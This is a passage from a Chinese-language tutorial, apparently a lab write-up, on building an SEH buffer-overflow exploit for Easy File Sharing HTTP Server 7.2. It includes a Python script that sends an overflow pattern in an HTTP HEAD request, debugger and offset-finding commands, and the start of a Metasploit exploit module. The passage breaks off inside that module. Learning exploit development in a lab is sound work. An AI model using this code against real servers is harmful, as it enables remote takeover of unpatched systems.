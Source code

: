 3. 通过脚本将字符串发给xp的80端口。

   ```python
   import socket
   import sys
    
   host = str(sys.argv[1])
   port = int(sys.argv[2])
    
   a = socket.socket()
    
   print "Connecting to: " + host + ":" + str(port)
   a.connect((host,port))
    
    
   # 这里是上一步生成的1.txt文件的内容
   buff = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2..."
    
   a.send("HEAD " + buff + " HTTP/1.0\r\n\r\n")
    
   a.close()
    
   print "Done..."
   ```

4. 打开Immunity Debugger的SEH chain，可发现如下图所示。

   ![](https://superj.oss-cn-beijing.aliyuncs.com/20200523154502.png)

   这里面显示的当前的SEH的handler为0x46356646，指向的下一个SEH的地址为0x34664633。因此，我们溢出字符串覆盖的SEH结构体的值为0x3466463346356646。

5. 查找0x34664633在溢出字符串中的偏移量。这里为什么是前4个字节，因为pattern_offset工具找的是四个字节在pattern中的偏移位置，所以我们只需要知道SEH结构体的前四个字节中的值对应的偏移。

   ```shell
   msf-pattern_offset -q 34664633
   ```

   执行后，获得偏移量。

   ![](https://superj.oss-cn-beijing.aliyuncs.com/20200523155744.png)

6. 通过Immunity Debugger的mona插件，寻找该程序中可以利用的dll模块。

   ```shell
   !mona modules
   ```

   <img src="https://superj.oss-cn-beijing.aliyuncs.com/20200523164151.png" style="zoom: 33%;" />

7. 找到其中未开启SafeSEH的可利用模块，这里选择第一个ImageLoad.dll，并通过msfbinscan找其中的PPR。

   <img src="https://superj.oss-cn-beijing.aliyuncs.com/20200523164438.png" style="zoom:50%;" />

8. 写exp，并将脚本放入msf的exploit的目录下，以让msf能够找到攻击脚本。

   ```ruby
   require 'msf/core'
   class MetasploitModule < Msf::Exploit::Remote
     Rank = NormalRanking
     include Msf::Exploit::Remote::Tcp
     include Msf::Exploit::Seh
   
     def initialize(info = {})
       super(update_info(info,
         'Name'            => 'Easy File Sharing HTTP Server 7.2 SEH Overflow',
         'Description'     => %q{
           This Module Demonstrate SEH based overflow example
         },
   ```